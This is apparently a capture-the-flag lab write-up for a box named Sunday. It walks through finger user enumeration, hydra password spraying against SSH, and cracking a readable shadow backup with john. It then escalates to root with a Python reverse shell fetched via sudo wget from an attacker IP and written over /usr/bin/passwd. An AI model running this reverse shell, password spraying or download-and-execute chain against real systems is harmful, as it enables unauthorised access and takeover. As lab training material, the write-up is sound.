

# Sunday

## Box Overview


Sunday is a easy rated linux box with a difficulty rating of 4.2/10 at the time of writing.

On our way to gaining root access to this machine we will encounter our first use of finger to enumterate users on the box. And then either through luck of guessing the password or password spraying ourway into an ssh connection as those users we found using finger. From there we discover that there are some user readble backup versions of the shadow file which we can crack to pivot to another user on the box. And then from that user we make use of the fact that they have permission to use wget without root password being needed to gain root access.

## Recon

### Nmap

As usual we will run our initial nmap scan:

```text
nmap -sC -sV 10.10.10.76
```


Now we see some ports open that usually are not. But after some googling as to what port 79 was I did not see a way to attack the box. So I ran another scan that focused on ports outside of the usual range.

```text
nmap -T4 -A -v -p- 10.10.10.76
```

| Command | Explanation |
| :--- | :--- |
| -T4 | sets the timing template, higher being faster |
| -A | Enables OS detection, version detection, script scanning and traceroute |
| -v | increases the verbosity of the output |
| -p- | all ports |


From the second scan we can see a few more ports are open. The most interesting looking being ssh on port 22022.

### Finger

Now, as this was my first time encountering finger I spent some time researching about.

Finger is a protocol that is used to find out information about users on a remote system. Usually finger servers can only provide either a list of logged-in users or information about a single user.

Now having understood somewhat what finger was I could somewhat see an emueration path. Clearly the box wants us to enumerate users on the box from finger and then log in as them on the ssh port. So we will do just that.

#### Finger Enum

With a bit of googling I found a finger user enum tool by [pentestmonkey](https://github.com/pentestmonkey/finger-user-enum). Once that was downloaded we run the script:

```text
perl finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```

| Command | Explanation |
| :--- | :--- |
| perl | runs a perl script |
| -U | sets the Username file to be used |
| -t | sets the target |

Now for our word list I used a username file from [seclists](https://github.com/danielmiessler/SecLists). This is a great soruce for commonly used usernames, passwords and basically anything you can think of.


Now whilst the output is not the easiest to understand we can still pick out useful information from it all. The two most likely users from the list I can see are sammy and sunny. This is because they are seemingly the only ones who have a pts connection apart from root. Pts connections are generally connections usgin ssh. Whereas tty connections are direct connections to the computer like a reverse shell.

using finger we can check that sunny and sammy are actual users

```text
finger sunny@10.10.10.76
```


### Getting our initial user shell

So, following our logic from before now that we have gained some users, we now need to ssh into the box. To do this we use the command:

```text
ssh sunny@10.10.10.76 -p 22022
```

However this gives us an error.



This means we need to change our key method to be able to ssh into the box. This is because the os is a relatively old one which has not had its ssh connection updated. To do this we will use the command:

```text
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sunny@10.10.10.76 -p 22022
```


This works! However the connection then asks us for a password, looks like we are not user quite yet.

So to get the password I decided to try password spraying using hydra.

```text
hydra -f -l sunny -P /usr/share/seclists/Passwords/Most-Popular-Letter-Passes.txt -s 22022 10.10.10.76 ssh
```

| Commands | Explanation |
| :--- | :--- |
| -l | username |
| -P | password file |
| -s | port |

Success! we find a match `sunday`. We are now able to ssh in as the user sunny.

### User Sunny Enumeration

One of the first things I did once becoming sunny was to look at the sudo permission of the user using `sudo -l`.


As I did not recoginse troll as a service or file I knew of, I tried running the file with root permission.

```text
sudo /root/troll
```


This does not seem to really do anythign useful, so we will keep looking. After scowering pretty much everywhere I made my way to the backup folder and had a look at its contents. Insde there are two backup folder. One of which we have read access to! This could be great for us depending on whats inside.


Great! inside of the shadow.backup there is the hash for both sammy and sunny. Time to crack them.

I copied both users hashes into a new file and named it hashes on my local machine and then used john to crack them.

```text
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```


Pretty quickly we get both users passwords. We can pretty much ignore sunnys password as we already knew it. However now that we know sammy's password is `cooldude!` we can ssh in as them.

```text
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sammy@10.10.10.76 -p 22022
```

Using pretty much the same command before except with the username changed ssh into the machine as sammy with their password.

On the desktop is the user.txt file.


### Privilege Escalation to Root

Once again using the comamnd `sudo -l` we see that the user has permission to run a command with root privellages without the need for the root password.


Now there are many ways to abuse this to gain root access. How I decided to do it was to download a reverse shell using wget and then execute it to gain root permissions.

First thing I did was to make the reverse shell code. I decided to make it in python and call it reverse\_shell.py.

```text
#!/usr/bin/python

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.21",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

Now pretty much any reverse shell would work here as long as the language is supported by the box I just decided to use python to get some practice in. 

Now that we have our reverse shell code ready, create both the nc listener to receive the connection and a file server to host the reverse shell on for the box to download it from.

```text
nc -lvnp 1234
```

```text
python -m SimpleHTTPSever 80
```

We will now use wget to get the reverseshell onto the machine and then execute it. We need to do this quickly as it would seem that there is a cron job removing most extra files about everu 5 seconds.

So the command we are going to use is:

```text
sudo wget http://10.10.14.21:80/reverse_shell.py -O /usr/bin/passwd

/usr/bin/passwd
```

Then on your netcat listener you should see the incoming connection from the box and you are root.


